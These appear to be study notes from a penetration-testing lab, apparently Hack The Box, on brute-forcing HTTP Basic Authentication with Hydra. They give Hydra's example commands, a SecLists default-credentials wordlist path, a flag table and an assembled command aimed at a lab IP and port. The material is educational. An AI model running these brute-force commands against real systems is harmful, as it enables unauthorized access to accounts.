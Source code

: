 ## Table of Contents

    - [Hydra](#Hydra)
  - [Finding Default Passwords](#Finding\Default\Passwords)
        - [List for finding default credentials](#List\for\finding\default\credentials)

#defaultpasswords #hydra 
As we saw when we visited the website, it prompted the `Basic HTTP Authentication` form to input the username and password. Basic HTTP Authentication usually responses with an HTTP `401 Unauthorized` response code. As we mentioned previously, we will resort to a Brute Forcing attack, as we do not have enough information to attempt a different type of attack, which we will cover in this section.




### Hydra
Used for:
	Login brute forcing

**To install**:
```bash
sudo apt install hydra -y
```

```bash
Examples:
  hydra -l user -P passlist.txt ftp://192.168.0.1
  
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  
  hydra -C defaults.txt -6
  pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  
  
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
```


## Finding Default Passwords
Don't know which user to brute force, will have to brute force both fields. Can either procide different wordlists for the usernames and passwords and iterate over all possible combinations. `Should be used a last resort`

##### List for finding default credentials
```bash
/usr/share/wordlists/seclists/Passwords/Default-Credentials
```

 In this case, we will pick `ftp-betterdefaultpasslist.txt` as it seems to be the most relevant to our case since it contains a variety of default user/password combinations. We will be using the following flags, based on help page above:

|**Options**|**Description**|
|---|---|
|`-C ftp-betterdefaultpasslist.txt`|Combined Credentials Wordlist|
|`SERVER_IP`|Target IP|
|`-s PORT`|Target Port|
|`http-get`|Request Method|
|`/`|Target Path|


The assembled command results:

```shell
gdxqpardo@htb[/htb]$ hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.211.23.155 -s 31099 http-get /
```

y common for administrators to overlook test or default accounts and their credentials. That is why it is always advised to start by scanning for default credentials, as they are very commonly left unchanged.
```bash

Options:
<...SNIP...>
  -s PORT   if the service is on a different default port, define it here
  -l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE
  -p PASS  or -P FILE  try password PASS, or load several passwords from FILE
  -u        loop around users, not passwords (effective! implied with -x)
  -f / -F   exit when a login/pass pair is found (-M: -f per host, -F global)
  server    the target: DNS, IP or 192.168.0.0/24 (this OR the -M option)
  service   the service to crack (see below for supported protocols)

<...SNIP...>

Examples:
  hydra -l user -P passlist.txt ftp://192.168.0.1
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L logins.txt -P pws.txt -M targets.txt ssh

```














